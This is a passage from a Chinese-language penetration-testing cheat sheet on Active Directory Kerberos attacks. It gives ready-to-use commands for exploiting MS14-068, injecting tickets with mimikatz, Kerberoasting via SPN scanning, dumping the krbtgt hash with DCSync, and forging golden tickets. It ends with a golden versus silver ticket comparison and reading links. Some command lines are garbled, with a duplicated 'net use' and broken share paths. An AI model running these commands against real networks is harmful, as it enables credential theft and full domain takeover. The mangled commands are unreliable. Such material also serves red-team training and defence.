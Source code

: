 
##### MS14-068 Kerberos 
```
python ms14-068.py -u 域用户@域名 -p 密码 -s 用户SID -d 域主机
```
利用mimikatz将工具得到的TGT_domainuser@SERVER.COM.ccache写入内存，创建缓存证书：
```
mimikatz.exe "kerberos::ptc c:TGT_darthsidious@pentest.com.ccache" exit
net use k: \pentest.comc$
```
相关阅读 :
* [Kerberos的工具包PyKEK](http://adsecurity.org/?p=676) 
* [深入解读MS14-068漏洞](http://www.freebuf.com/vuls/56081.html)
* [Kerberos的安全漏洞](https://adsecurity.org/?p=541) 

##### SPN扫描 
Kerberoast可以作为一个有效的方法从Active Directory中以普通用户的身份提取服务帐户凭据，无需向目标系统发送任何数据包。
SPN是服务在使用Kerberos身份验证的网络上的唯一标识符。它由服务类，主机名和端口组成。在使用Kerberos身份验证的网络中，必须在内置计算机帐户（如NetworkService或LocalSystem）或用户帐户下为服务器注册SPN。对于内部帐户，SPN将自动进行注册。但是，如果在域用户帐户下运行服务，则必须为要使用的帐户的手动注册SPN。
SPN扫描的主要好处是，SPN扫描不需要连接到网络上的每个IP来检查服务端口，SPN通过LDAP查询向域控执行服务发现，SPN查询是Kerberos的票据行为一部分，因此比较难检测SPN扫描。
相关阅读 :
* [非扫描式的SQL Server发现](https://blog.netspi.com/locate-and-attack-domain-sql-servers-without-scanning/) 
* [SPN扫描](https://adsecurity.org/?p=1508) 
* [扫描SQLServer的脚本](https://github.com/PyroTek3/PowerShell-AD-Recon) 

##### Kerberos的黄金门票 
在域上抓取的哈希
```
lsadump::dcsync /domain:pentest.com /user:krbtgt
```
```
kerberos::purge
kerberos::golden /admin:administrator /domain:域 /sid:SID /krbtgt:hash值 /ticket:adinistrator.kiribi
kerberos::ptt administrator.kiribi
kerberos::tgt
net use k: \pnet use k: \pentest.comc$
```
相关阅读 :
* https://adsecurity.org/?p=1640 
* [域服务账号破解实践](http://bobao.360.cn/learning/detail/3564.html) 
* [Kerberos的认证原理](https://blog.csdn.net/wulantian/article/details/42418231) 
* [深刻理解windows安全认证机制ntlm＆Kerberos](https://klionsec.github.io/2016/08/10/ntlm-kerberos/) 

#####  Kerberos的银票务
黄金票据和白银票据的一些区别：
Golden Ticket：伪造`TGT`，可以获取`任何Kerberos`服务权限
银票：伪造TGS，`只能访问指定的服务`
加密方式不同：
Golden Ticket由`krbtgt`的hash加密
Silver Ticket由`服务账号`（通常为计算机账户）Hash加密
认证流程不同：
金票在使用的过程需要同域控通信
银票在使用的过程不需要同域控通信
相关阅读 :
* [攻击者如何使用Kerberos的银票来利用系统](https://adsecurity.org/?p=2011) 
* [域渗透——Pass The Ticket](https://www.feiworks.com/wy/drops/%E5%9F%9F%E6%B8%97%E9%80%8F%E2%80%94%E2%80%94Pass%20The%20Ticket.pdf)
